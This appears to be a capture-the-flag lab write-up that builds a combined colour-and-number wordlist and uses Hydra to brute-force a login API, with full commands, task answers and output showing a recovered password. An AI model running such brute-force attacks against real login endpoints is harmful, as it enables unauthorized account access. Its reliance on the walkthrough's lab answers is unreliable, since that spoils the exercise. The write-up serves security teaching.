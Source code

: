 ~~~
./combinator.bin colors.txt numbers.txt > wordlist.txt
~~~

This will then give you a wordlist to use for Hydra.

**Attack the API**

The HTTP POST request that we captured earlier tells us enough about the API that we can use Hydra to attack it.
The API is actually designed to either accept Form data, or JSON data. The frontend sends JSON data as a POST request, so we will use this. Hydra allows attacking HTTP POST requests, with the HTTP-POST module. To use this, we need:

* Request Body - JSON: `{"username":"admin","password":"admin"}`
* Request Path: `/api/user/login`
* Error message for incorrect logins: `Invalid Username Or Password`

The command for this is (replace the parts with angle brackets, you will need to escape special characters):

~~~
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
~~~

## #4.1 - Form the hydra command to attack the login API route

*Hint: If you're struggling with JSON, the API route also accepts form data, which is easier to use with Hydra.*

Let's build our hydra command:

~~~
hydra -l james -P wordlist.txt 10.10.156.130 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
~~~

## #4.2 - How many passwords were in your wordlist?

*Hint: wc, look for number of lines*

Now, let's use combinator to build our passwords list.

~~~
$ ./combinator.bin colors.txt numbers.txt > wordlist.txt
$ wc -l wordlist.txt 
180 wordlist.txt
~~~

Answer: `180`

## #4.3 - What was the user's password?

Let's run our attack:

~~~
$ hydra -l james -P wordlist.txt 10.10.156.130 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-17 11:50:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.156.130:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[80][http-post-form] host: 10.10.156.130   login: james   password: blue7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-17 11:51:39
~~~